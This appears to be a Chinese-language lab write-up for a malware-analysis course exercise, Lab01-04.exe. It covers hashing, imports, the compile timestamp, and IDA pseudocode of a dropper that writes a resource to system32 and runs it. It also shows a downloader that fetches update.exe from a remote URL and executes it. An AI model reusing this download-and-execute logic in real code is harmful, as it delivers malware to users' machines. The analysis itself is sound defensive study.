

# lab 1-4

## QUESTION 1

> Upload the Lab01-04.exe file to http://www.VirusTotal.com/. Does it match any existing antivirus definitions?

文件的 sha256 哈希值：

```bash
$ sha256sum Lab01-04.exe
0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126  Lab01-04.exe
```

因此上传的 `url` 为：https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection

可以看到这同样是一个被 53 个引擎检测出来的木马。

## QUESTION 2

> Are there any indications that this file is packed or obfuscated? If so, what are these indicators? If the file is packed, unpack it if possible.

使用 `blackarch` 的工具 `packerid`：

```bash
$ packerid Lab01-04.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

可见这个文件并没有加壳。

## QUESTION 3

> When was this program compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
#！/usr/bin/env python3
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-04.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python labb01-04.exe
2019-08-31 06:26:59
```

## QUESTION 4

> Do any imports hint at this program’s functionality? If so, which imports are they and what do they tell you?

使用 `blackarch` 的工具 `malscan`：

```bash
$ malscan Lab01-04.exe
...
[Imports Overview]

KERNEL32.dll
        0x402010 GetProcAddress
        0x402014 LoadLibraryA
        0x402018 WinExec
        0x40201c WriteFile
        0x402020 CreateFileA
        0x402024 SizeofResource
        0x402028 CreateRemoteThread
        0x40202c FindResourceA
        0x402030 GetModuleHandleA
        0x402034 GetWindowsDirectoryA
        0x402038 MoveFileA
        0x40203c GetTempPathA
        0x402040 GetCurrentProcess
        0x402044 OpenProcess
        0x402048 CloseHandle
        0x40204c LoadResource

ADVAPI32.dll
        0x402000 OpenProcessToken
        0x402004 LookupPrivilegeValueA
        0x402008 AdjustTokenPrivileges

MSVCRT.dll
        0x402054 _snprintf
        0x402058 _exit
        0x40205c _XcptFilter
        0x402060 exit
        0x402064 __p___initenv
        0x402068 __getmainargs
        0x40206c _initterm
        0x402070 __setusermatherr
        0x402074 _adjust_fdiv
        0x402078 __p__commode
        0x40207c __p__fmode
        0x402080 __set_app_type
        0x402084 _except_handler3
        0x402088 _controlfp
        0x40208c _stricmp
...
```

可见这个可执行文件导入了，执行命令、复制移动写文件、读取文件资源大小、读取文件树、打开关闭进程等危险函数，猜测这是实现了一个了文件查看器的恶意病毒。

## QUESTION 5

> What host- or network-based indicators could be used to identify this malware on infected machines?

我们用 `ida pro` 打开这个可执行文件，先查看它里面的字符串：



我们发现 `\\system32\\wupdmgr.exe` 这样一个字符串，我们查找调用的位置，并查看调用位置的伪代码：

```c
// ...
  GetWindowsDirectoryA(&Buffer, 0x10Eu);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aSystem32Wupdmg);
  hModule = GetModuleHandleA(0);
  hResInfo = FindResourceA(hModule, Name, Type);
  lpBuffer = LoadResource(hModule, hResInfo);
  nNumberOfBytesToWrite = SizeofResource(hModule, hResInfo);
  hFile = CreateFileA(&Dest, 0x40000000u, 1u, 0, 2u, 0, 0);
  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  CloseHandle(hFile);
  return WinExec(&Dest, 0);
}
```

这段代码的大致用处应该是加载一个可执行文件的资源，然后把这个可执行文件资源复制到一个给定的位置（即 `\\system32\\wupdmgr.exe`），然后执行它。这并没有网络相关请求。

于是我们通过 `binwalk` 命令提取出其中的资源：

```bash
$ binwalk --dd=".*" Lab01-04.exe
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
16480         0x4060          Microsoft executable, portable (PE)
```

这条命令将给定文件 `Lab01-04.exe` 中的资源提取到了文件夹 `_Lab01-04.exe.extracted` 中。

```bash
$ cd _Lab01-04.exe.etracted/

$ ls
0  4060
```

我们发现提取出了 `0` 和 `4060` 这两个资源，很显然 `0` 即为之前分析的可执行文件，我们再用  `ida pro` 分析其中的资源文件 `4060`：


我们发现了一个 `URL` 地址，并且我们还在导入表中发现了 `URLDownloadToFileA` 这个导入函数，我们再分析调用这个字符串位置的伪代码：

```c
// ...
  GetTempPathA(0x10Eu, &Buffer);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aWinupExe);
  WinExec(&Dest, 5u);
  GetWindowsDirectoryA(&v7, 0x10Eu);
  snprintf(&CmdLine, 0x10Eu, aSS_0, &v7, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, &CmdLine, 0, 0) )
    WinExec(&CmdLine, 0);
  return 0;
}
```

这个段伪代码，向 `http://www.practicalmalwareanalysis.com/update.exe`，下载病毒资源文件并且保存到 `\\system32\\wupdmgrd.exe` 这个文件中。

所以需要监测网络中是否与 `http://www.practicalmalwareanalysis.com/update.exe` 建立了连接。

## QUESTION 6

> This file has one resource in the resource section. Use Resource Hacker to examine that resource, and then use it to extract the resource. What can you learn from the resource?

在第五问中已经使用 `binwalk` 提取出来了。